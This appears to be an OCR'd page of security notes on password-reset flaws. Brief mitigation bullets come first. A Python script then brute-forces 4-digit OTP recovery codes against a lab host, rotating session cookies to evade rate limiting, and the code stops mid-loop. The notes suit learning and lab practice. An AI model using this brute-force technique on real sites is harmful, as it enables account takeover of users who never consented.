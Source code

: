 ```
- Ensuring that sessions are invalidated when a user logs out or resets their password.
- **Mitigation Steps**:
  - Implement proper session management, ensuring that all sessions are invalidated upon logout or password reset.

## **Session Invalidation in Logout/Password Reset**

- Reset tokens should have an expiration time after which they become invalid.
- **Mitigation Steps**:
  - Set a reasonable expiration time for reset tokens and strictly enforce it server-side.

## **OTP rate limit bypass by changing your session**  

- If the website is using user session to track wrong OTP attempts and the OTP was weak ( <= 4 digits) then we can effectively bruteforce the OTP.
    - **exploitation**:
        - just request a new session token after getting blocked by the server.
    - **Example** code that exploits this bug by randomly guessing the OTP (when you change the session the OTP will change as well, and so we will not be able to sequentially bruteforce it!):

      ``` python
        # Authentication bypass by password reset
        # by coderMohammed
        import requests
        import random
        from time import sleep
        
        headers = {
            "User-Agent": "Mozilla/5.0 (iPhone14,3; U; CPU iPhone OS 15_0 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) Version/10.0 Mobile/19A346 Safari/602.1",
            "Cookie": "PHPSESSID=mrerfjsol4t2ags5ihvvb632ea"
        }
        url = "http://10.10.12.231:1337/reset_password.php"
        logout = "http://10.10.12.231:1337/logout.php"
        root = "http://10.10.12.231:1337/"
        
        parms = dict()
        ter = 0
        phpsessid = ""
        
        print("[+] Starting attack!")
        sleep(3)
        print("[+] This might take around 5 minutes to finish!")
        
        try:
                while True:
                        parms["recovery_code"] = f"{random.randint(0, 9999):04}" # random number from 0 - 9999 with 4 d
                        parms["s"] = 164 # not important it only efects the frontend
                        res = requests.post(url, data=parms, allow_redirects=True, verify=False, headers=headers)
        
                        if ter == 8: # follow number of trails
                                out = requests.get(logout,headers=headers) # log u out 
                                mainp = requests.get(root) # gets another phpssid (token)
        
                                cookies = out.cookies # extract the sessionid 
                                phpsessid = cookies.get('PHPSESSID')
                                headers["cookies"]=f"PHPSESSID={phpsessid}" #update the headers with new session
        
                                reset = requests.post(url, data={"email":"tester@hammer.thm"}, allow_redirects=True, verify=False, headers=headers) # sends the email to change the password for
```
